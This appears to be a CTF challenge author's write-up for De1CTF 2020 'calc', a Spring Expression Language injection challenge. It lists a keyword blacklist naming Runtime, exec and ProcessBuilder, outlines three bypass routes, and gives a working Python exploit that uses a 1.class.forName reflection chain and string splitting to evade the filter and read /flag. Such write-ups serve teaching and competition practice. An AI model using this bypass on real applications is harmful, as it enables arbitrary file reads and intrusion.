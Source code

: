 # De1CTF 2020 calc

## 1. challenge info
Please calculate the content of file /flag http://106.52.164.141

## 2. design document
I found there are many difference between spel's grammar and java's grammar. For example, in spel we can use 1.class to get the class java.lang.Integer, but in java, we cannot.

I want to design a challenge to let ctfers discovery these difference. And we can construct a more complicated reflection chain instead of the copy the payload from the internet directly.

So, i use two technology to forbide normal payloads.

1. blacklist filter:
    - T\s*\(
    - \#
    - new
    - java\.lang
    - Runtime
    - exec.*\(
    - getRuntime
    - ProcessBuilder
    - start
    - getClass
    - String
2. rasp

There may be 3 different way to solve:
1. bypass blacklist filter to use T or # or new keywords
2. bypass blacklist by using 1.class.forName() to reflect java class, and construct a reflection chain to get flag
3. close the rasp protection

## 3. exp

which scheme we want players to use is the scheme2:bypass blacklist by using 1.class.forName() to reflect java class, and construct a reflection chain to get flag. and i just give my exploit here. of course you can try other two schemes to solve this challenge (actually they are really feasible.)

```
# coding=utf-8
import commands
import base64
import requests

def get_flag(target):
    payload = '1.class.forName("java.nio.file.Files").getMethod("readAllLines", 1.class.forName("java.nio.file.Path")).invoke(null, 1.class.forName("java.nio.file.Paths").getMethod("get", 1.class.forName("java.net.URI")).invoke(null, 1.class.forName("java.net.URI").getMethod("create", 1.class.forName("java.la"+"ng.Str"+"ing")).invoke(null, "file:///flag")))'
    print("payload", payload)
    url = "http://{}/spel/calc".format(target)
    r = requests.get(url, params={"calc": payload})
    print(r.request.url)
    print(r.text)


if __name__ == '__main__':
    get_flag("106.52.164.141")
```
